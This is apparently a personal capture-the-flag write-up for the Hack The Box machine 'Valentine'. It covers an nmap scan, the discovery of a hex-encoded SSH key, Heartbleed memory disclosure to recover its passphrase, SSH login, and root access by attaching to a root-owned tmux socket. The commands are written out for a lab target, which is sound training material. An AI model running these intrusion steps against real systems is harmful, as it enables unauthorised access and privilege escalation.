 # Information gathering

## system network

`10.10.10.79`

## Nmap Scan Result

``` bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2022-12-30T01:43:18+00:00; -1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
```

## Directory enumeration

_1. find dev directory_
![[Pasted image 20221230112744.png]]
_2. get hype_key file

_3. decode with hex_

## Password Crack

_the 443 port is vulnerable to hearbleed
```bash
nmap --script ssl-hearbleed -p443 10.10.10.79
```

_get password by memery infomation leak_

[Heartbleed memory disclosure](https://www.exploit-db.com/exploits/32764)

`password:`heartbleedbelievethehype

# Exploit

## Initial Foothold

```bash
ssh  -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa hype@10.10.10.79
```

### Exp

None

### Proof

![[Pasted image 20221230113154.png]]

## Lateral Movement

### Method

### Proof


## Privilege Escalation

### Method

attach to a existing sessiong which is run as root user.
```bash
# list all tmux process
ps aux | grep tmux
# output: root       1001  0.0  0.1  26416  1672 ?        Ss   17:41   0:05 /usr/bin/tmux -S /.devs/dev_sess

# attach session from /.devs/dev_sess
tmux -S /.devs/dev_sess
```

### proof

![[Pasted image 20221230142816.png]]
